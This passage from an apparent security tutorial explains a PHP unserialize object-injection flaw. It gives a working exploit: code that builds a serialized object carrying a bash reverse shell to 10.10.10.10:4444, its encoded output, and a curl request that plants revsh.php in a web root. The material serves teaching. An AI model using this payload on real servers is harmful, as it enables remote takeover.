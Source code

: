 The script does the following:

1. It takes the variable ```user_input``` as input and ```unserialize()``` is called on it
2. If the input is a serialized ```DataBaseExport``` object, ```unserialize()``` instantiates a new ```DataBaseExport``` object
3. The magic method ```__destruct()``` is available so it is called
4. The ```__destruct()``` method puts the contents of the ```data``` variable on to a filename that is defined by the variable ```user_file```. The file is then copied to the root directory of the web server.
5. Calls the ```update_db()``` method to update the file with the latest data in the ```data``` variable and copies the file to the root directory.

To exploit this we can craft a ```user_input`` input as a serialized object that contains a reverse shell. This input is written as a file to the root directory of the webserver. We can then navigate to that file and execute it. The malicious input can be created as follows:

```php
<?php
class DatabaseExport
{
    public $user_file='revsh.php';
    public $data='<?php exec("/bin/bash -c \'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1\'"); ?>';
}
print("serialized object:\n");
print(serialize(new DatabaseExport));
print("\n\n");
print("serialized object with encoding:\n");
print(urlencode(serialize(new DatabaseExport)));
?>
```

As shown above, the ```data``` variable contains the reverse shell and the ```user_file``` variable contains the filename of the file that will be placed in the root directory of the server. The output of this snippet is as follows:

```console
serialized object:
O:14:"DatabaseExport":2:{s:9:"user_file";s:9:"revsh.php";s:4:"data";s:73:"<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1'"); ?>";}

serialized object with encoding:
O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A9%3A%22revsh.php%22%3Bs%3A4%3A%22data%22%3Bs%3A73%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.10.10%2F4444+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D
```

Now we can pass the encoded string into the ```user_input``` variable as follows:

```console
kali@kali:~$ curl -i http://example.com/server.php?user_input=O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A9%3A%22revsh.php%22%3Bs%3A4%3A%22data%22%3Bs%3A73%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.10.10%2F4444+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D
```

This will write the file to the root of the server. The file that's copied (revsh.php) can now be executed simply by navigating to ```http://example.com/revsh.php``` and the reverse shell can be caught with a listener.
